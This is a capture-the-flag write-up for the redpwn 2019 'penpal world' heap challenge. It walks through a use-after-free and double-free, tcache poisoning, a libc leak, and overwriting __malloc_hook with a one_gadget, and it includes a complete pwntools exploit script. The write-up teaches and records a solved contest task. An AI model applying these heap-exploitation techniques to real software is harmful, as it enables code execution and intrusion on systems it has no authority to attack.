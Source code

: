 # penpal world

## Pwn - Points: 436

> Written by: jespiron
>
> 
>
> Please don't decimate this cute lil ish; write your grandmother a smol parcel of love instead~
>
> 
>
> `nc chall2.2019.redpwn.net 4010`
>
> [libc-2.27.so](libc-2.27.so)
>
> [penpal_world](penpal_world)
>

The given binary has all typical security mechanisms enabled:

	$ checksec penpal_world
	Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

It seems to be a typical heap challenge with a menu, that provides various options, basically `malloc`, `free`, `read` and `write`. Since no source code is provided, we have to decompile and analyze the binary with `Ghidra`. Then we can see, that the `free` operation does not nullify the pointer, so we can access the memory later on and have a `use-after-free` vulnerability. Secondly we can `free` the same memory multiple times, so we have also a `double-free` vulnerability.

To exploit this, we have to leak the `libc` base address and find a way to execute `one_gadget`. This can typically be achieved by setting up a `malloc_hook`. The binary does only `malloc` chunks of size `0x48`, that is in fastbin range, that do not store a pointer to `libc`, so we have to increase the chunk size. Also, we are given a `libc-2.27.so`, so we have to take in mind, that it uses `tcache`.

To leak a chunk address on the heap, we `malloc` a chunk and `free` it twice. Then the `fd` pointer, that is stored inside the memory region of the user data contains the address of the chuck itself, so we can leak its address by reading it out.

Then we add an offset to the address to point to the chunk header of the following chunk. Then we `malloc` a new chunk and we will get the previously freed chunk back. The next `malloc` will allocate a chunk which controls the chunk header of the following chunk. Then we allocate a new chunk, that will be placed after the previous chunk. Since we have control of the chunk header, we can increase the chunk size and set it above fastbin size. Then we do something called tcache-poisoning: we `free` the new chunk 7 times and will fill up the `tcache`, so that the 8th `free` will add the chunk to the unsorted bins. The first chunk in the unsorted bins stores in the `fd` pointer to the address of `main_arena` of `libc`, that we can now read out and calculate the address of `one_gadget`.

Now we `malloc` a new chunk and `free` it again and leverage `use-after-free` to modify the `fd` pointer to point to the fake chunk `malloc_hook-0x23`. Then we `malloc` again and get the freed chunk back and the next `malloc` will give us the fake chunk and we overwrite the `__malloc_hook` with `one_gadget`. The next `malloc` will spawn the shell.

Exploit code:

```python
from pwn import *


libc = ELF('./libc-2.27.so')

def malloc(n):
	p.sendline('1')
	p.recvuntil('#?\n')
	p.sendline(str(n))
	p.recvuntil('4) Read a postcard\n')

def free(n):
	p.sendline('3')
	p.recvuntil('#?\n')
	p.sendline(str(n))
	p.recvuntil('4) Read a postcard\n')

def write(n, payload):
	p.sendline('2')
	p.recvuntil('#?\n')
	p.sendline(str(n))
	p.recvuntil('Write.\n')
	p.sendline(payload)
	p.recvuntil('4) Read a postcard\n')

def read(n):
    p.sendline('4')
    p.recvuntil('Which envelope #?\n')
    p.sendline(str(n))

# context.terminal = ['termite', '-e']
# p = gdb.debug('./penpal_world')
p = process('./penpal_world')

p.recvuntil('4) Read a postcard\n')

# malloc chunk
malloc(0)

# double free
free(0)
free(0)

# leak heap address that is now stored in fd pointer in chunk user data
read(0)

heap_leak = u64(p.recv(6) + '\x00\x00')
log.success('heap: {}'.format(hex(heap_leak)))

p.recvuntil('4) Read a postcard\n')

# setup arbitrary write into chunk header of following chunk by modifying fd
write(0, p64(heap_leak + 0x40))

# initial chunk
malloc(0)

# allocation of chunk header
malloc(1)

# allocation of new chunk
malloc(0)

# modify chunk size in chunk header
write(1, p64(0x0) + p64(0x91))

# bypass: double free or corruption (!prev)
malloc(1)
write(1, 'A' * 0x30 + p64(0x0) + p64(0x51))

# bypass: corrupted size vs. prev_size
malloc(1)
write(1, 'A' * 0x30 + p64(0x0) + p64(0x51))

# tcache poisoning
# fill the tcache with 7 free chunks
# the 8th chunk will go into the unsorted bin
for i in range(8):
	free(0)

# leak libc address by reading the fd pointer that points to libc main_arena
read(0)
libc_leak = u64(p.recv(6) + '\x00\x00')

libc_base = libc_leak - 0x3EBCA0
log.success('libc base: {}'.format(hex(libc_base)))

malloc_hook = libc_base + libc.symbols['__malloc_hook']
one_gadget = libc_base + 0x10a38c

# allocate chunk
malloc(0)

# use-after-free
free(0)

# modify fd to point to fake chunk malloc_hook-0x23
write(0, p64(malloc_hook-0x23))

# malloc chunk again
malloc(0)

# malloc the fake chunk
malloc(0)

# overwrite __malloc_hook with one_gadget 
write(0, 'A' * 0x23 + p64(one_gadget))

# malloc something to trigger shell
p.sendline('1\n0')
p.interactive()
```